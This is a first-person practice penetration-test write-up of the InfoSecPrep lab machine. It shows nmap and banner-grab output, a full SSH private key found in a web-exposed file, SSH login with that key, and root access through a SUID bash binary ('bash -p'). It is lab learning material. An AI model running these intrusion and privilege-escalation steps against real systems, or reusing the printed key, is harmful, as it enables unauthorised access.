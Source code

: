 # Pentest report(practice) by Chanathip (this is my first writeup btw)
## Info-Sheet

- IP: 192.168.184.89
- DNS-Domain name: N/A
- Host name: InfoSecPrep
- OS: Linux
- Server: Apache httpd 2.4.41
- Kernel: Linux oscp 5.4.0-40-generic \#44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

---
## Recon
---
Services and ports:
```bash
# Nmap 7.91 scan initiated Fri Sep  3 17:24:39 2021 as: nmap -v -sC -sV -oN scans/nmap.txt 192.168.184.89  
Nmap scan report for 192.168.184.89  
Host is up (0.068s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)  
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)  
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-generator: WordPress 5.4.2  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
| http-robots.txt: 1 disallowed entry    
|_/secret.txt  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: OSCP Voucher &#8211; Just another WordPress site  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Fri Sep  3 17:24:52 2021 -- 1 IP address (1 host up) scanned in 12.84 seconds
```
### Port 22 - SSH 
- Name: OpenSSH
- Version: OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
- Takes-password: No password, RSA key only

Netcat Connection to SSH

```bash
┌─[✗]─[kenobi@cg-home]─[~/ctf/ProvingGround/Warmup/InfoSecPrep]  
└──╼ $nc 192.168.184.89 22  
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1
```
```
nc 192.168.184.89 22
```

### Port 80 - Web server

- Server: Apache httpd 2.4.41
- Scripting language: php
- IP-address: 192.168.184.89
- Domain name address: N/A

```bash
curl --head http://192.168.184.89   
```
```bash
HTTP/1.1 200 OK  
Date: Fri, 03 Sep 2021 22:34:02 GMT  
Server: Apache/2.4.41 (Ubuntu)  
Link: <http://192.168.184.89/index.php/wp-json/>; rel="https://api.w.org/"  
Content-Type: text/html; charset=UTF-8
```

- Web application: Wordpress
- Name: InfoSecPrep
- Version: 5.4.2

##### /index.php
- Blogs
- Found possible username `oscp`

##### /robots.txt
- /secret.txt

##### /secret.txt
- contained base64 encoded
-  decoded value below
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

- Possible ssh-key of user `oscp`

---

## exploitation

---
### Port 22 - SSH
- We try using ssh-key found against user `oscp`
##### steps
1. chmod 600 `<filename>`
2. ssh -i `<filename>` oscp@`<IP>`

Successfully Logged in

---
## PRIVILEGE ESCALATION
---

- Perform basic local enumrations

### Possible escalate routes
- SUID
- ##### steps
1. find / -perm -4000 2>/dev/null
2. Found interesting bin for priv esc --> /usr/bin/bash

#### priv esc
- ##### steps
1. Using /usr/bin/bash with SUID for priv esc
2. Go to [[https://gtfobins.github.io]]
3. Search for bash binary
4. Found `bash -p` for priv esc
5. Execute, got root bash shell

# GG!
